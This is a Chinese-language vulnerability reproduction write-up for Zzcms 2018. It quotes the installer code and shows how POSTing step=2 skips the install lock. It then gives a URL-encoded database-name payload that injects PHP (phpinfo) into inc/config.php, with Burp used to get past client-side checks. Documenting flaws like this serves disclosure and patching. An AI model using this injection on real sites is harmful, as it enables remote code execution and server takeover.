 Zzcms 2018 最新版重装getshell
=============================

一、漏洞简介
------------

源码信息：Zzcms 2018

问题文件： \\zzcms\\install\\index.php

漏洞类型：重装getshell

站点地址：<http://www.zzcms.net/>

二、漏洞影响
------------

Zzcms2018

三、复现过程
------------

### 0x01攻击分析

在文件\\ zzcms \\ install \\ index.php文件的第9-10行中\$
\_POST使用了提取变量注册的方法进行变量的初始化。

    if($_POST) extract($_POST, EXTR_SKIP);//把数组中的键名直接注册为了变量。就像把$_POST[ai]直接注册为了$ai。
    if($_GET) extract($_GET, EXTR_SKIP);
    $submit = isset($_POST['submit']) ? true : false;
    $step = isset($_POST['step']) ? $_POST['step'] : 1;

分析代码可以知道，setp为空的时候，初始化初始化的变量1，然后进入到step\_1.php，有install.lock，就不能重装，所以我们这里直接POST
step = 2绕过

    <?php
    switch($step) {
            case '1'://协议
                    include 'step_'.$step.'.php';
            break;
            case '2'://环境
                    $pass = true;
                    $PHP_VERSION = PHP_VERSION;
                    if(version_compare($PHP_VERSION, '4.3.0', '<')) {
                            $php_pass = $pass = false;
                    } else {
                            $php_pass = true;
                    }
                    $PHP_MYSQL = '';
                    if (extension_loaded('mysqli') || extension_loaded('mysql')) {
                            $PHP_MYSQL = '支持';
                            $mysql_pass = true;
                    } else {
                            $PHP_MYSQL = '不支持';
                            $mysql_pass = $pass = false;
                    }
            $PHP_GD = '';
            if(function_exists('imagejpeg')) $PHP_GD .= 'jpg';
            if(function_exists('imagegif')) $PHP_GD .= ' gif';
            if(function_exists('imagepng')) $PHP_GD .= ' png';
                    if($PHP_GD) {
                            $gd_pass = true;
                    } else {
                            $gd_pass = false;
                    }
                    $PHP_URL = @get_cfg_var("allow_url_fopen");//是否支持远程URL，采集有用
                    $url_pass = $PHP_URL ? true : false;
                    include 'step_'.$step.'.php';
            break;
            case '3'://查目录属性
                    include 'step_'.$step.'.php';
            break;
            case '4'://建数据库
                    include 'step_'.$step.'.php';
            break;
            case '5'://安装进度
                    function dexit($msg) {
                            echo '<script>alert("'.$msg.'");window.history.back();</script>';
                            exit;
                    }

                    $conn=connect($db_host,$db_user,$db_pass,'',$db_port);
                    if(!$conn) dexit('无法连接到数据库服务器，请检查配置');
                    $db_name or dexit('请填写数据库名');
                    if(!select_db($db_name)) {
                            if(!query("CREATE DATABASE $db_name")) dexit('指定的数据库不存在\n\n系统尝试创建失败，请通过其他方式建立数据库');
                    }
                    $url=str_replace("'",'',$url);
                    //保存配置文件
                    $fp="../inc/config.php";
                    $f = fopen($fp,'r');
                    $str = fread($f,filesize($fp));
                    fclose($f);
                    $str=str_replace("define('sqlhost','".sqlhost."')","define('sqlhost','$db_host')",$str) ;
                    $str=str_replace("define('sqlport','".sqlport."')","define('sqlport','$db_port')",$str) ;
                    $str=str_replace("define('sqldb','".sqldb."')","define('sqldb','$db_name')",$str) ;
                    $str=str_replace("define('sqluser','".sqluser."')","define('sqluser','$db_user')",$str) ;
                    $str=str_replace("define('sqlpwd','".sqlpwd."')","define('sqlpwd','$db_pass')",$str) ;
                    $str=str_replace("define('siteurl','".siteurl."')","define('siteurl','$url')",$str) ;
                    $str=str_replace("define('logourl','".logourl."')","define('logourl','$url/image/logo.png')",$str) ;
                    $f=fopen($fp,"w+");//fopen()的其它开关请参看相关函数
                    fputs($f,$str);//把替换后的内容写入文件
                    fclose($f);
                    //创建数据
                    include 'step_'.$step.'.php';
                    break;
            case '6'://安装成功
                    include 'step_'.$step.'.php';
            break;
    }

![](./resource/Zzcms2018最新版重装getshell/media/rId26.png)

    <?php
    if(@$step==3){
    $token = md5(uniqid(rand(), true));    
    $_SESSION['token']= $token; 
    ?>

step\_3.php文件中有一个创建的令牌，后面创建数据库的时候验证，所以从步骤=
2，一步一步偶。

从上面的代码文中知道\$ url = str\_replace（"\'"，"，\$ url）;
把单引号替换为空了，然后的fputs写INC /
config.php的配置文件中所以这里通过\$ DB\_NAME来写到配置文件。

### 0×02复漏洞现

在数据库配置页面，数据库名填写：

zzcms%27%29%3bphpinfo%28%29%3b%2f%2f
本机创建zzcms\');phpinfo();//的数据库

![](./resource/Zzcms2018最新版重装getshell/media/rId28.png)

因为本地有JS验证，所以先把数据库名改成123，bp抓到包以后在修改成zzcms%27%29%3bphpinfo%28%29%3b%2f%2f

![](./resource/Zzcms2018最新版重装getshell/media/rId29.png)

成功写入到配置文件

![](./resource/Zzcms2018最新版重装getshell/media/rId30.png)

![](./resource/Zzcms2018最新版重装getshell/media/rId31.png)

image
